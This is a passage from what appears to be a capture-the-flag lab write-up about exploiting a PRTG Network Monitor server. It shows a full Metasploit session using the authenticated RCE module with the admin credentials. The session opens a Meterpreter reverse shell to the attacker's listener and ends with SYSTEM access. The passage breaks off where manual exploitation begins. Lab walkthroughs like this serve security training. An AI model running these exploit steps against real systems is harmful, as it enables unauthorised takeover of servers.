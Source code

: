 # Exploitation using Metasploit
The module identified during vulnerability search works perfectly and we get a SYSTEM shell.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/http/prtg_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.10.16.173:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.152:62967) at 2021-06-11 09:59:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
# Manual Exploitation w/o Metasploit
Trying to run the script downloaded from the site or copied from the exploitDB directory on the Kali system throws the below error.
